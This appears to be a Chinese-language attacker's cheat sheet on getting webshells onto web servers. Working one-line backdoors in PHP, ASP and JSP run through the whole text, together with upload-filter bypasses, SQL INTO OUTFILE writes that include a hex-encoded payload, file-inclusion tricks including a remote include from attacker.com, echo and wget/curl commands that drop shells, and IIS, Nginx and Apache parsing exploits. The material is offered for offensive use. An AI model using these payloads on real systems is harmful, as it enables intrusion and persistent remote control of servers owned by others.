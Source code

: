 #### A. 利用 CMS 漏洞获取 Webshell

1.  **识别 CMS**：
    *   后台明确显示。
    *   页面底部版权信息。
    *   Web 指纹识别工具（御剑 WEB 指纹识别）。
    *   浏览器插件（Wappalyzer）。
2.  **查找漏洞**：根据识别出的 CMS 名称和版本，在搜索引擎、漏洞库搜索该版本的已知漏洞，特别是后台文件上传、模板编辑、插件漏洞、数据库备份等可获取 Webshell 的漏洞。搜索关键词如：“WordPress X.X getshell”, “Drupal Y.Y arbitrary file upload”。

#### B. 非 CMS 网站获取 Webshell (通用思路)

##### I. 已获得后台管理权限

1.  **后台直接上传**：
    *   检查上传功能点（头像、附件、图片、模板等）是否有文件类型限制。若无或限制不严格，直接上传一句话木马（PHP: `<?php @eval($_POST['cmd']);?>`, ASP: `<%eval request("cmd")%>`, JSP: `<%if(request.getParameter("cmd")!=null){Runtime.getRuntime().exec(request.getParameter("cmd"));}%>`)。
2.  **修改配置文件/模板**：
    *   查找后台可编辑的配置文件、模板文件、包含文件等。
    *   将一句话木马**小心地**插入到这些文件中，注意保持原有代码语法正确，避免破坏网站功能。建议先备份或本地分析源码。
3.  **数据库备份功能**：
    *   上传一个允许的文件类型（如图片马 `shell.jpg`）到已知路径。
    *   利用后台的数据库备份功能，将该图片文件备份为脚本文件（如 `shell.php`）。
    *   如果备份路径受限，尝试 F12 修改前端限制或抓包修改请求。
4.  **绕过上传限制**：
    *   使用 Burp Suite 等工具进行花式上传：
        *   **%00 截断**：`shell.php%00.jpg` (依赖 PHP < 5.3.4 且特定配置)
        *   **特殊文件名**：利用操作系统特性（如 Windows 下 `shell.php.`、`shell.php::$DATA`）。
        *   **大小写绕过**：`shell.PhP`。
        *   **黑白名单绕过**：尝试 `.pht`, `.phtml`, `.php3`, `.php4`, `.php5`, `.asa`, `.cer` 等可能被解析的后缀。
        *   **Content-Type 绕过**：修改请求中的 `Content-Type` 为 `image/jpeg` 等允许类型。
        *   **条件竞争**：上传后再快速访问。
5.  **后台编辑功能**：
    *   利用后台提供的代码编辑、模板编辑、广告管理、标签管理等功能，直接写入一句话木马。
6.  **压缩文件上传**：
    *   将木马文件放入压缩包 (如 `.zip`)。
    *   将压缩包后缀改为允许的模板或主题文件类型（如 `.skin`, `.theme`）。
    *   通过后台的主题/模板上传功能上传，服务器解压后可能留下木马文件。
7.  **SQL 命令执行 (需高权限)**：
    *   前提：数据库用户有 `FILE` 权限，知道 Web 目录绝对路径，能执行 SQL 语句。
    *   **`INTO OUTFILE` / `INTO DUMPFILE`**：
        ```sql
        -- 方法一：创建表写入再导出
        CREATE TABLE temp_shell (content TEXT);
        INSERT INTO temp_shell VALUES ('<?php @eval($_POST[\'cmd\']);?>');
        SELECT content FROM temp_shell INTO OUTFILE '/var/www/html/shell.php'; -- 或 DUMPFILE 写二进制
        DROP TABLE temp_shell;

        -- 方法二：直接导出字符串
        SELECT '<?php @eval($_POST[\'cmd\']);?>' INTO OUTFILE '/var/www/html/shell.php';
        ```
    *   注意单引号过滤，可使用十六进制编码字符串：`SELECT 0x3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e INTO OUTFILE '/var/www/html/shell.php';`

##### II. 未获得后台管理权限 (利用漏洞)

1.  **SQL 注入漏洞**：
    *   前提：同上（高权限、FILE 权限、知路径、有注入点）。
    *   利用 `UNION SELECT ... INTO OUTFILE/DUMPFILE` 写入 Webshell。
    *   **Log 备份 GetShell**：通过 SQL 语句修改日志文件路径到 Web 目录，然后执行包含 Webshell 代码的查询，使其写入日志文件。
    *   **差异备份 GetShell** (SQL Server)。
2.  **文件包含漏洞 (LFI/RFI)**：
    *   **LFI + 上传**：先上传一个包含 Webshell 代码的文件（如 `shell.txt` 或图片马），然后利用 LFI 包含该文件 (`?page=../../uploads/shell.txt`)。
    *   **LFI + 日志文件**：向服务器发送包含 Webshell 代码的请求（如在 User-Agent 中），这些代码会被记录到访问日志（如 Apache 的 `access.log`）或错误日志中，再利用 LFI 包含日志文件。
    *   **LFI + Session 文件**：如果能控制部分 Session 内容，将 Webshell 写入 Session，再包含 Session 文件。
    *   **RFI**：直接包含远程服务器上的 Webshell 文件 (`?page=http://attacker.com/shell.txt`)。
3.  **命令执行漏洞 (RCE)**：
    *   利用 Web 应用本身或其依赖组件的 RCE 漏洞。
    *   执行系统命令直接写入 Webshell：
        *   Linux: `echo '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php`
        *   Windows: `echo ^<^?php @eval($_POST["cmd"]);?^> > C:\inetpub\wwwroot\shell.php` (注意转义)
        *   使用 `wget` 或 `curl` 下载远程 Webshell 文件。
4.  **文件上传漏洞 (绕过 WAF/限制)**：
    *   利用前面提到的各种文件上传绕过技巧。
5.  **解析漏洞 (Parsing Vulnerability)**：
    *   **IIS 5.x/6.0**：
        *   目录解析：`/shell.asp/` 目录下的任何文件（如 `test.jpg`）会被当作 ASP 解析。
        *   文件解析：`shell.asp;.jpg` 文件名中的分号后内容被忽略，文件被当作 ASP 解析。
    *   **IIS 7.x (FastCGI)**：在 URL 后添加 `/xx.php`（如 `site.com/image.jpg/xx.php`），`image.jpg` 会被当作 PHP 解析。
    *   **Nginx < 0.8.3**：
        *   畸形解析：同 IIS 7.x (需特定配置 `cgi.fix_pathinfo=1`)。
        *   空字节代码执行：`shell.jpg%00.php` (利用 `%00` 截断)。
    *   **Apache**：
        *   多后缀解析：`shell.php.xxx.yyy`，Apache 从后往前解析，直到遇到认识的后缀（如 `.php`）。文件名 `apache.conf` 中 `AddHandler` 或 `AddType` 指令可能导致意想不到的解析（如 `.htaccess` 配置不当）。
        *   `.htaccess` 文件上传：如果允许上传 `.htaccess` 文件，可以写入规则使特定类型文件（如 `.jpg`）被当作 PHP 解析。
6.  **编辑器漏洞 (Editor Vulnerability)**：
    *   利用 Web 应用集成的富文本编辑器（FCKeditor, eWebEditor, KindEditor, UEditor 等）的已知文件上传漏洞。搜索特定编辑器版本的漏洞。
7.  **反序列化漏洞 (Deserialization Vulnerability)**：
    *   利用 PHP, Java, Python, .NET 等语言的反序列化漏洞，构造 Payload 执行命令写入 Webshell 或直接反弹 Shell。
8.  **XSS + SQL 注入 (Combined Attack)**：
    *   如果某个输入点存在 XSS 且过滤不严（如允许 `< > ?` 等字符），可以将 PHP Webshell 代码 `<?php ... ?>` 输入。
    *   然后利用 SQL 注入漏洞，使用 `INTO OUTFILE` 将包含该 XSS Payload 的数据行导出到 Web 目录下，形成 Webshell 文件。
9.  **头像上传利用 (特殊场景)**：
    *   抓取正常上传头像的数据包。
    *   将头像文件的二进制内容替换为包含 Webshell 的压缩文件（如 ZIP）的二进制内容。
    *   修改 `Content-Type` 可能为 `application/zip` 或保持 `image/jpeg` (视后端逻辑)。
    *   如果上传成功且服务器端会解压（例如用于生成不同尺寸头像），则可能将 Webshell 文件解压到服务器。需要知道解压路径。 (此方法较少见且依赖特定实现)。